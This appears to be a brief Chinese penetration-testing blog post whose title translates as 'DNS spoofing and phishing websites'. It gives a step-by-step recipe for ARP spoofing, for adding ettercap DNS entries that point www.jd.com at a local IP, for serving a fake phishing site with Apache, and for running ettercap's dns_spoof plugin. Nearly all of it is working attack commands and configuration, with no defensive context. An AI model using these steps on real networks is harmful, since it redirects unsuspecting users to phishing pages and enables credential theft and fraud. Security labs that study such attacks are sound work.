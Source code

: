 ```yaml
---
layout: post
title: DNS欺骗与钓鱼网站
date: 2020-09-10
categories:
- PenTest
---
```

1.ARP欺骗攻击<br>

2.伪装DNS服务器(正向解析)<br>
* vim /etc/ettercap/etter.dns`
* www.jd.com A 10.1.1.2`
* A 10.1.1.2`
* www.jd.com PTR 10.1.1.2`
* PTR 10.1.1.2`

3.开Apache发布一个虚假的钓鱼网站<br>
systemctl start apache2<br>
netstat -antpl<br>
cd /var/www/html/<br>

4.ettercap<br>
add to target<br>
Plugins=>dns_spoof<br>
